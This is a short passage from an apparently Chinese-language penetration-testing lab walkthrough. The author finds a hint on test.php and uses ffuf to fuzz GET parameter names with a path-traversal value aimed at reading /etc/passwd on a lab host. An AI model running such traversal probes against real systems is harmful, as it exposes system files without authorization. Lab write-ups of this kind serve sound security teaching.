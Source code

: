 访问`test.php`，发现有弹窗，给出的提示是`get`参数问题。但是这个界面与`error.html`相似。不过还是猜测这是有参数的

![](pic-fall\21.jpg)

使用`ffuf`测试参数，假设这里是有路径遍历的，所以测试

```shell
ffuf -u http://192.168.10.10/test.php?FUZZ=../../../../../../etc/passwd -w /usr/share/wordlists/dirb/big.txt -fs 80
```

![](pic-fall\22.jpg)
